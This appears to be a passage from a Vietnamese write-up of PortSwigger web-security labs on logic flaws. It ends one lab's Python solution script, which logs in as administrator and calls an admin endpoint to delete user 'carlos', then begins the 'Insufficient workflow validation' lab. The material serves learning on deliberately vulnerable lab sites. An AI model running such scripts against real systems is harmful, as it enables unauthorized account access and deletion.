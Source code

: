 ```python!
    url + '/logout',
    verify=False,
)

sess = requests.Session()
response = session.get(url + '/login')

soup = BeautifulSoup(response.text, 'html.parser')
csrf = soup.find('input', {'name': 'csrf'})['value']

data = {
    'csrf': csrf,
    'username': 'administrator',
    'password': 'peter',
}

response = sess.post(
    url + '/login',
    data=data,
    verify=False,
)

response = sess.get(
    url + '/admin/delete?username=carlos',
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình đã solve được lab này

![image](https://hackmd.io/_uploads/SyVzkIm2T.png)

## 7. Lab: Insufficient workflow validation

link: https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-insufficient-workflow-validation

### Đề bài

![image](https://hackmd.io/_uploads/ryQx-FQ3p.png)

### Phân tích

- Trang web chứa lỗ hổng logic trong các bước của quá trình mua hàng. Để giải quyết bài lab, chúng ta cần khai thác lỗ hổng để mua sản phẩm "Lightweight l33t leather jacket". Tài khoản hợp lệ được cung cấp: wiener:peter.

Khi ta mua một sản phẩm thành công, tồn tại 2 request như sau:
